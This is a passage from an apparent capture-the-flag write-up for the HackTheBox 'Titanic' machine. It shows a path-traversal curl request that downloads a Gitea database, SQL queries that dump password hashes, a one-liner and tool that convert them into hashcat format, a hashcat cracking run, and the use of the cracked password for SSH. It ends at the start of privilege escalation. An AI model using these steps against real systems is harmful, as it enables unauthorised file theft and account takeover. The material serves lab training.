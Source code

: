 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916164153.png)

```
curl http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db -o db.db
```

Getting db to our machine checking file type and we know that this is sqlite 3

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916164456.png)

I don't know sqlite3 syntax so googled cheatsheet
https://vhernando.github.io/sqlite3-cheat-sheet
Checked tables and user table looks promising, checked it and I found password hashes

```
.tables
select * from user;
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916165034.png)

Spend some time trying to crack it and then I checked 0xdf writeup

```
sqlite3 db.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

**Later I watched IppSec video and there is great tool to do that**
https://cocalc.com/github/hashcat/hashcat/blob/master/tools/gitea2hashcat.py

```
sqlite3 gitea.db 'select salt,passwd from user;' | python3 gietea2hashcat.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916170831.png)

ok now I understand how this should looks like
Now let's crack it with hashcat 

```
hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916171052.png)

We manage to crack developer hash, the password is 25282528
Now I can connect via ssh and grab user.txt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916171219.png)

## Privilege Escalation

Running Linpeas I found
Path starting with /home/developer/.local/bin, but there is nothing intesting
